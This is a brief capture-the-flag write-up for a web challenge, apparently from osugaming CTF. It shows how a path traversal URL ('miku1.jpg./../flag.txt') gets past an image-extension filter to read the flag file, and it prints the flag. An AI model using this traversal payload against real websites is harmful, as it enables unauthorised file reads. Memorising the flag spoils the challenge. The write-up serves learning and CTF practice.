




For this challenge, we only have a link to a website :

By looking into the files with the challenge we can clearly see that the flag is in the image folder

We can also see a js file on how the site work, and we see that it is just a filter on images extension (png or jpg)

by trying a basic LFI, we find the flag : 
- base image link
### https://mikufanpage.web.osugaming.lol/image?path=miku1.jpg

- LFI link

### https://mikufanpage.web.osugaming.lol/image?path=miku1.jpg./../flag.txt
## osu{miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku}